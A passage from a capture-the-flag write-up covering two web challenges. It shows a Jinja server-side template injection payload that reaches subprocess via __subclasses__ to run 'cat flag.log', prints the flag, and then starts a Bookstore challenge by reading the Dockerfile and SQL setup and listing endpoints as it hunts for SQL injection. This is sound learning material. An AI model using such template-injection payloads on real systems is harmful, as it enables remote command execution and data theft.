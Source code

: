 We can use such a payload combined with the JSON to send our exploit. We can run some commands to look around the filesystem, and eventually find `flag.log`. This will then render on our page as the flag.

{% raw %}
```json
{
    "PAYLOAD": "{{''.__class__.__mro__[1].__subclasses__()[340]('cat flag.log', shell=True, stdout=-1).communicate()[0].strip()}}"
}
```
{% endraw %}

Flag: `maple{he_was_fired_and_so_was_she}`

### Bookstore
```
Maple Stores 2 is out! Get it for me pwease

Author: Disna#0532
```

Let's start by looking for the flag. It seems to be declared in in the `Dockerfile` then stored through `init.sql`.

```Dockerfile
# Dockerfile
...
ENV FLAG="maple{test_flag}"
RUN sed -i "s/FLAGE/$FLAG/g" /init.sql`
...
```
```sql
-- init.sql
...
INSERT INTO books(title, author, price, texts) VALUES('Maple 
Stories', 'Maple-Chan', 0, 'FLAGE');
...
```

So the flag is stored in the `texts` column of the table `books`. This leads the exploit to be something SQLi related.

Let's look for where the application takes in user-input. Looking through the Express application, we find the following endpoints in `index.js`:

- `/`: renders index
- `/login`: accepts GET and POST requests, validates username/password
- `/register`: accepts GET and POST requests, validates username/password
- `/logout`: violently destroys the session
- `/books`: renders the user's owned books
- `/catalogue`: same as books
- `/purchase`: POST request to add book to user then goes to catalogue
- `/download-ebook`: POST request with `direct` or `kindle` options, validates email

The validator used is from this [package](https://www.npmjs.com/package/validator) which is applying some string checks for emails, usernames and passwords.
